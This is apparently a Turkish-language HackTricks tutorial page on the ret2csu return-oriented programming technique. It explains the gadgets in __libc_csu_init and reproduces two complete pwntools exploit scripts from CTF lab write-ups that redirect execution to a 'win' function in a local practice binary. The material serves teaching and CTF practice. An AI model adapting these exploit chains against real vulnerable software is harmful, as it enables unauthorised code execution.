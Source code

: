 # Ret2csu

{% hint style="success" %}
Learn & practice AWS Hacking:<img src="../../.gitbook/assets/arte.png" alt="" data-size="line">[**HackTricks Training AWS Red Team Expert (ARTE)**](https://training.hacktricks.xyz/courses/arte)<img src="../../.gitbook/assets/arte.png" alt="" data-size="line">\
Learn & practice GCP Hacking: <img src="../../.gitbook/assets/grte.png" alt="" data-size="line">[**HackTricks Training GCP Red Team Expert (GRTE)**<img src="../../.gitbook/assets/grte.png" alt="" data-size="line">](https://training.hacktricks.xyz/courses/grte)

<details>

<summary>Support HackTricks</summary>

* Check the [**subscription plans**](https://github.com/sponsors/carlospolop)!
* **Join the** 💬 [**Discord group**](https://discord.gg/hRep4RUj7f) or the [**telegram group**](https://t.me/peass) or **follow** us on **Twitter** 🐦 [**@hacktricks\_live**](https://twitter.com/hacktricks\_live)**.**
* **Share hacking tricks by submitting PRs to the** [**HackTricks**](https://github.com/carlospolop/hacktricks) and [**HackTricks Cloud**](https://github.com/carlospolop/hacktricks-cloud) github repos.

</details>
{% endhint %}

##

## [https://www.scs.stanford.edu/brop/bittau-brop.pdf](https://www.scs.stanford.edu/brop/bittau-brop.pdf)Temel Bilgiler

**ret2csu**, bir programın kontrolünü almaya çalışırken, genellikle programın davranışını manipüle etmek için kullandığınız **gadgets**'ları bulamadığınızda kullanılan bir hacking tekniğidir.

Bir program belirli kütüphaneleri (libc gibi) kullandığında, programın farklı parçalarının birbirleriyle nasıl iletişim kuracağını yönetmek için bazı yerleşik işlevlere sahiptir. Bu işlevler arasında, özellikle `__libc_csu_init` adı verilen kaybolan gadgets'larımız olarak hareket edebilecek bazı gizli mücevherler bulunmaktadır.

### \_\_libc\_csu\_init İçindeki Sihirli Gadgets

**`__libc_csu_init`** içinde vurgulanması gereken iki talimat dizisi (gadget) bulunmaktadır:

1. İlk dizi, birkaç kaydın (rbx, rbp, r12, r13, r14, r15) değerlerini ayarlamamıza olanak tanır. Bunlar, daha sonra kullanmak istediğimiz sayıları veya adresleri depolayabileceğimiz slotlar gibidir.
```armasm
pop rbx;
pop rbp;
pop r12;
pop r13;
pop r14;
pop r15;
ret;
```
Bu gadget, yığın üzerindeki değerleri bu register'lara alarak onları kontrol etmemizi sağlar.

2. İkinci dizilim, ayarladığımız değerleri kullanarak birkaç şey yapar:
* **Belirli değerleri diğer register'lara taşıma**, bunları fonksiyonlarda parametre olarak kullanmamız için hazır hale getirme.
* **r15 ve rbx'deki değerleri toplayarak** belirlenen bir konuma çağrı yapma, ardından rbx'i 8 ile çarpma.
```armasm
mov rdx, r15;
mov rsi, r14;
mov edi, r13d;
call qword [r12 + rbx*8];
```
2. Belki oraya yazmak için herhangi bir adres bilmiyorsunuz ve **bir `ret` talimatına** ihtiyacınız var. İkinci gadget'ın da **bir `ret` ile biteceğini** unutmayın, ancak ona ulaşmak için bazı **koşulları** yerine getirmeniz gerekecek:
```armasm
mov rdx, r15;
mov rsi, r14;
mov edi, r13d;
call qword [r12 + rbx*8];
add rbx, 0x1;
cmp rbp, rbx
jnz <func>
...
ret
```
Koşullar şunlardır:

* `[r12 + rbx*8]` çağrılabilir bir fonksiyonu depolayan bir adrese işaret etmelidir (eğer bir fikriniz yoksa ve pie yoksa, sadece `_init` fonksiyonunu kullanabilirsiniz):
* Eğer \_init `0x400560` adresindeyse, GEF kullanarak bellekte ona işaret eden bir işaretçi arayın ve `[r12 + rbx*8]`'in \_init'e işaret eden adres olmasını sağlayın:
```bash
# Example from https://guyinatuxedo.github.io/18-ret2_csu_dl/ropemporium_ret2csu/index.html
gef➤  search-pattern 0x400560
[+] Searching '\x60\x05\x40' in memory
[+] In '/Hackery/pod/modules/ret2_csu_dl/ropemporium_ret2csu/ret2csu'(0x400000-0x401000), permission=r-x
0x400e38 - 0x400e44  →   "\x60\x05\x40[...]"
[+] In '/Hackery/pod/modules/ret2_csu_dl/ropemporium_ret2csu/ret2csu'(0x600000-0x601000), permission=r--
0x600e38 - 0x600e44  →   "\x60\x05\x40[...]"
```
* `rbp` ve `rbx` aynı değere sahip olmalıdır, atlamayı önlemek için
* Dikkate almanız gereken bazı atlanan pops vardır

## RDI ve RSI

**`rdi`** ve **`rsi`**'yi ret2csu gadget'ından kontrol etmenin bir başka yolu, belirli ofsetlere erişmektir:

<figure><img src="../../.gitbook/assets/image (2) (1) (1) (1) (1) (1).png" alt="" width="283"><figcaption><p><a href="https://www.scs.stanford.edu/brop/bittau-brop.pdf">https://www.scs.stanford.edu/brop/bittau-brop.pdf</a></p></figcaption></figure>

Daha fazla bilgi için bu sayfayı kontrol edin:

{% content-ref url="brop-blind-return-oriented-programming.md" %}
[brop-blind-return-oriented-programming.md](brop-blind-return-oriented-programming.md)
{% endcontent-ref %}

## Örnek

### Çağrıyı Kullanma

Bir syscall yapmak veya `write()` gibi bir fonksiyonu çağırmak istediğinizi hayal edin, ancak `rdx` ve `rsi` kayıtlarında parametreler için belirli değerlere ihtiyacınız var. Normalde, bu kayıtları doğrudan ayarlayan gadget'lar ararsınız, ancak bulamazsınız.

İşte burada **ret2csu** devreye giriyor:

1. **Kayıtları Ayarlayın**: İlk sihirli gadget'ı kullanarak yığın üzerindeki değerleri alıp rbx, rbp, r12 (edi), r13 (rsi), r14 (rdx) ve r15'e yerleştirin.
2. **İkinci Gadget'ı Kullanın**: Bu kayıtlar ayarlandığında, ikinci gadget'ı kullanırsınız. Bu, seçtiğiniz değerleri `rdx` ve `rsi`'ye (sırasıyla r14 ve r13'ten) taşımanıza olanak tanır ve bir fonksiyon çağrısı için parametreleri hazırlar. Ayrıca, `r15` ve `rbx`'yi kontrol ederek, programın hesapladığınız adreste bulunan bir fonksiyonu çağırmasını sağlayabilirsiniz ve bunu `[r15 + rbx*8]` içine yerleştirebilirsiniz.

Bu tekniği kullanan ve burada açıklayan bir [**örneğiniz var**](https://ir0nstone.gitbook.io/notes/types/stack/ret2csu/exploitation) ve bu, kullanılan son istismar:
```python
from pwn import *

elf = context.binary = ELF('./vuln')
p = process()

POP_CHAIN = 0x00401224 # pop r12, r13, r14, r15, ret
REG_CALL = 0x00401208  # rdx, rsi, edi, call [r15 + rbx*8]
RW_LOC = 0x00404028

rop.raw('A' * 40)
rop.gets(RW_LOC)
rop.raw(POP_CHAIN)
rop.raw(0)                      # r12
rop.raw(0)                      # r13
rop.raw(0xdeadbeefcafed00d)     # r14 - popped into RDX!
rop.raw(RW_LOC)                 # r15 - holds location of called function!
rop.raw(REG_CALL)               # all the movs, plus the call

p.sendlineafter('me\n', rop.chain())
p.sendline(p64(elf.sym['win']))            # send to gets() so it's written
print(p.recvline())                        # should receive "Awesome work!"
```
{% hint style="warning" %}
Not edin ki önceki exploit bir **`RCE`** gerçekleştirmek için değil, sadece **`win`** adlı bir fonksiyonu çağırmak içindir (ROP zincirinde `win` adresini stdin'den alarak ve bunu r15'te saklayarak) ve üçüncü bir argüman olarak `0xdeadbeefcafed00d` değerini alır.
{% endhint %}

### Çağrıyı atlayarak ret'e ulaşma

Aşağıdaki exploit [**bu sayfadan**](https://guyinatuxedo.github.io/18-ret2\_csu\_dl/ropemporium\_ret2csu/index.html) çıkarılmıştır; burada **ret2csu** kullanılıyor ancak çağrıyı kullanmak yerine **karşılaştırmaları atlayarak ve çağrıdan sonra `ret`'e ulaşarak** çalışmaktadır:
```python
# Code from https://guyinatuxedo.github.io/18-ret2_csu_dl/ropemporium_ret2csu/index.html
# This exploit is based off of: https://www.rootnetsec.com/ropemporium-ret2csu/

from pwn import *

# Establish the target process
target = process('./ret2csu')
#gdb.attach(target, gdbscript = 'b *    0x4007b0')

# Our two __libc_csu_init rop gadgets
csuGadget0 = p64(0x40089a)
csuGadget1 = p64(0x400880)

# Address of ret2win and _init pointer
ret2win = p64(0x4007b1)
initPtr = p64(0x600e38)

# Padding from start of input to saved return address
payload = "0"*0x28

# Our first gadget, and the values to be popped from the stack

# Also a value of 0xf means it is a filler value
payload += csuGadget0
payload += p64(0x0) # RBX
payload += p64(0x1) # RBP
payload += initPtr # R12, will be called in `CALL qword ptr [R12 + RBX*0x8]`
payload += p64(0xf) # R13
payload += p64(0xf) # R14
payload += p64(0xdeadcafebabebeef) # R15 > soon to be RDX

# Our second gadget, and the corresponding stack values
payload += csuGadget1
payload += p64(0xf) # qword value for the ADD RSP, 0x8 adjustment
payload += p64(0xf) # RBX
payload += p64(0xf) # RBP
payload += p64(0xf) # R12
payload += p64(0xf) # R13
payload += p64(0xf) # R14
payload += p64(0xf) # R15

# Finally the address of ret2win
payload += ret2win

# Send the payload
target.sendline(payload)
target.interactive()
```
### Neden Sadece libc Kullanmayalım?

Genellikle bu durumlar da [**ret2plt**](../common-binary-protections-and-bypasses/aslr/ret2plt.md) + [**ret2lib**](ret2lib/) ile savunmasızdır, ancak bazen libc'de doğrudan bulduğunuz gadget'larla kolayca kontrol edilebilecek parametrelerden daha fazlasını kontrol etmeniz gerekir. Örneğin, `write()` fonksiyonu üç parametre gerektirir ve **bunların hepsini doğrudan ayarlamak için gadget bulmak mümkün olmayabilir**.
